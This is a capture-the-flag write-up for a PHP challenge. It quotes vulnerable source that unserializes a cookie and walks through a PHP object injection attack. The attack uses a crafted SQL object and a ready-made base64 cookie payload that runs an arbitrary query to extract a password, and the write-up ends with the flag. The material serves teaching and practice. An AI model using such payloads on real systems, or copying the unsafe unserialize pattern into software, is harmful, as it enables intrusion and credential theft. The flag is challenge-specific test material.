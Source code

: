 # Task
![image](https://user-images.githubusercontent.com/44528004/132701258-bb744fd5-f757-42b7-88c9-edc1dbaa1a56.png)

# Solution
## Initial observation
The first source:
```php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>
```

The second source:
```php
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

From these sources, we can see that the `leet_hax0r` cookie is an associative array with `ip` as a property. This array is then serialized and encoded in base64 before being transmitted to the client.

When the server receives a request, it decodes the `leet_hax0r` cookie value, unserializes it and stored in `$sess_data`. Then, it checks whether `$sess_data` is an array and its `ip`'s value is of the IP address of the server. If either is wrong, **CANT HACK US!!!** is returned. Also, if the `id` parameter is set and is of integer, it will perform a SQL query.

In the second source code, the interesting here is the `__destruct()` method because it will be called when a `SQL` object is deleted. In addition, the `username` column from the result of the SQL query will be echoed.

## Exploitation
From the above information, we can guess that this application is vulnerable to **object injection**.  
In order to execute an arbitrary SQL query, we need to craft ourselves an `SQL` object whose properties are similar to those of the `$sql` on the server.
```php
class SQL {
    public $query = '';
    public $conn;
}

$inj = new SQL();
```
As SQL is not an array, we completely bypass the first `if..else..` block:
```php
if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
    die('CANT HACK US!!!');
}
```

When giving `1` as the **User id**, we get **Username: flag**; therefore, we might want the `password` of this user.  
Our query would be
```sql
SELECT password FROM users WHERE username='flag';
```

However, only the column named `usernamed` is echoed back, we need an alias:
```sql
SELECT password as username FROM users WHERE username='flag';
```

Now, our `$inj` object would be:
```
$inj->query = "SELECT password as username FROM users WHERE username='flag';";
```

Let's serialize and encode this object:
```
php > $sql->query = "SELECT password as username FROM users WHERE username='flag';";
php > echo urlencode(base64_encode(serialize($sql)));
TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NjE6IlNFTEVDVCBwYXNzd29yZCBhcyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIHVzZXJuYW1lPSdmbGFnJzsiO3M6NDoiY29ubiI7Tjt9
```

Modify the `leet_hax0r` cookie value to our value.  

![image](https://user-images.githubusercontent.com/44528004/132871370-ff4b11c1-f9d4-41fe-9a12-62b43a5c71d4.png)

And got the result:  

![image](https://user-images.githubusercontent.com/44528004/132871429-b6e5279b-2545-4c27-97cc-0e4287c82801.png)
> Flag: `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`
